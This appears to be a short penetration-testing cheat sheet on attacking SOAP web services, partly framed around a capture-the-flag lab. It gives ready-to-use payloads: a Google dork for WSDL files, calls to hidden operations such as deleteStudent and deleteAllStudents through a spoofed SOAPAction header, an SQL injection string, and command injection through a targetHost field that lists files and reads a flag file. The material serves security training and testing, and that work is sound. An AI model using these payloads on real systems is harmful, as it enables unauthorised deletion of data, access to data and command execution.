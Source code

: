 Use google to find the wsdl file

    site:www.vuln.att filetype:wsdl

or you can use the **"?wsdl | .wsdl | ?disco"** at the end of the url

# Example

An application contains three operations and requires Student ID:

- **studentInfo** 
- **studentExam**
- **studentBilling**

But if we request the **wsdl** file we can notice some hidden operations like :

- **deleteStudent**
- **getAdminInfo**

So if there are no restrictions then we can change the **studentInfo** operation to **deleteStudent**.

    <SOAP-ENV:deleteStudent>
        <id>8</id>
    </SOAP-ENV:deleteStudent>

<br/>

# Spoof a SOAP action header

The header soap action is set to **getStudentInfo**

    SOAPAction: "http://www.vuln.att.com/getStudentInfo"

A remote attacker can invoke the method **deleteAllStudents**  by changing the soap header

    SOAPAction: "http://www.vuln.att.com/deleteAllStudents"

<br/>

# SQLi through SOAP


    <SOAP-ENV:getStudentInfo>
        <id> ' or '1'='1 </id>
    </SOAP-ENV:getStudentInfo>


# Lab example
### Bypass the SOAP body restrictions using the SOAPAction header.

<br/>

Add the header :

    SOAPAction: urn:ws-user-account#getAdminInfo

If the request is restricted to only admins, look for the soap action header related to the admin operation.

<br/>

# Command Execution

    <targetHost>
     ; ls
    </targetHost>

<br/>

    <targetHost>
     ; find / -iname *flag*
    </targetHost>


<br/>

    <targetHost>
     ; cat /app/flag3
    </targetHost>